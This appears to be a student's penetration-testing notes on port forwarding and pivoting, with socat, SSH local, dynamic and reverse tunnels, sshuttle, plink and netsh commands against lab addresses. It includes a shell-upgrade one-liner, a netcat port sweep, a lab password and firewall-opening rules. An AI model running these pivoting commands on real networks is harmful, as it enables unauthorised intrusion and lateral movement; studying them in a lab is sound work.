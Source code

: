 

## 18.1 Port Forwarding with Linux Tools

##### Socat
- Can be run from user space
- alternate options: rinetd, netcat FIFO combo
- 

Commands

```
# verbose socat  local 2345 to remote 10.4.50.215:5432
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```


## 18.2 SSH Tunneling

##### SSH Notes
- Need TTY functionality 
	- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Need to know exact ip port
	- `for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done`
- Local forward syntax:  -L <L_IP>:<L_PORT>:<R_IP>:<R_PORT>
- Dynamic forward syntax: -D <L_IP>:<L_PORT>:<R_IP>
	- dynamic uses SOCKS protocol to proxy packets to multiple destination ports
	- if SOCKS not natively supported, use proxychains
		- proxychains doesnt work for statically linked binaries
		- proxychains conf file: /etc/proxychains4.conf (need to edit)
- Reverse syntax: -R <LISTENER_IP>:<LISTEN_PORT>:<F_IP>:<F_PORT>
	- make sure to set up ssh server on kali
- Dynamic reverse can use proxychains as well

##### Sshuttle
- Turns SSH connection into a pseudo VPN
- Sets up local routes to force traffic through SSH connection
- Needs prexisting SSH connection and port forward on target 

Commands 

```
# Local port forward (-N = no shell)
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# Dynamic forward
ssh -D 0.0.0.0:9999 database_admin@10.4.50.215

# Proxychains (make sure to edit proxychains.conf)
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217

# Reverse 
ssh -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

# Reverse dynamic (listens locally on kali at 9998)
ssh -R 9998 kali@192.168.118.4

# Sshuttle
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24


```


## 18.3 Port Forwarding with Windows Tools

##### SSH.exe
- Included with Windows 10 1709 + 
- Bundled with sftp.exe and scp.exe
- Stored in `%systemdrive%\Windows\System32\OpenSSH`
- Need to start SSH server on kali

##### Plink.exe
- Cmdline version of PuTTY
- Need to already have connection to remote target to upload binary
	- usually nc.exe -> plink 

##### Netsh 
- Need firewall hole 


Commands

```
# Plink syntax (local 9833 to remote 3389)
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4

# Netsh 
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netsh interface portproxy show all

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow


```
